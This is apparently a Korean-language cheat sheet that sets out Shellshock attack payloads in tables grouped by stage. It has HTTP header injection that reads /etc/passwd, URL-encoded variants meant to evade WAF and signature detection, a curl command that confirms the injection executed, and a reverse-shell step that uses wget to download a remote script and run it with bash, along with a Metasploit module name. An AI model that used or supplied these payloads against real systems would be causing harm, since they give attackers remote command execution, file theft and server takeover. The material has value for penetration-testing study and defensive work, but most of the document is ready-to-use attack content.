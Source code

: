   <thead>
    <tr><th>공격 이름</th><th>예시 페이로드</th><th>설명</th><th>출처</th></tr>
  </thead>
  <tbody>
    <tr>
      <td>HTTP Header Shellshock Injection</td>
      <td><pre><code>User-Agent: () { :; }; echo; /bin/bash -c 'cat /etc/passwd'</code></pre></td>
      <td>HTTP 헤더(User‑Agent, Cookie 등)에 Shellshock 페이로드를 삽입하여 애플리케이션 레이어 필터를 우회하고 Bash 레이어에서 임의 명령 실행을 유도한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Obfuscation

<table>
  <thead>
    <tr><th>공격 이름</th><th>예시 페이로드</th><th>설명</th><th>출처</th></tr>
  </thead>
  <tbody>
    <tr>
      <td>Payload Encoding Obfuscation</td>
      <td><pre><code>User-Agent: %28%29%20%7B%3A%3B%7D%3B%20/bin/bash%20-c%20'id'</code></pre></td>
      <td>URL 인코딩·Base64 인코딩·환경 변수 이름 분할·기타 헤더 필드를 활용하여 WAF 및 서명 기반 탐지를 회피한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Validation

<table>
  <thead>
    <tr><th>공격 이름</th><th>예시 페이로드</th><th>설명</th><th>출처</th></tr>
  </thead>
  <tbody>
    <tr>
      <td>Execution Success Verification</td>
      <td><pre><code>curl -i http://target.example.com/cgi-bin/vuln.sh \  
-H "User-Agent: () { :; }; echo; /bin/bash -c 'id'"</code></pre></td>
      <td>curl 또는 nc를 이용해 HTTP 응답 헤더·본문·상태 코드를 분석하여 명령이 정상 실행되었는지(200 vs 500 등) 검증한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Exploitation

<table>
  <thead>
    <tr><th>공격 이름</th><th>예시 페이로드</th><th>설명</th><th>출처</th></tr>
  </thead>
  <tbody>
    <tr>
      <td>Reverse Shell Deployment</td>
      <td><pre><code>User-Agent: () { :; }; /bin/bash -c 'wget http://target.example.com/shell.sh -O /tmp/shell.sh; bash /tmp/shell.sh'</code></pre></td>
      <td>wget과 bash를 조합해 원격 스크립트를 다운로드·실행하거나, Metasploit의 <code>exploit/multi/http/apache_mod_cgi_bash_env_exec</code> 모듈을 이용해 역쉘을 획득한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>
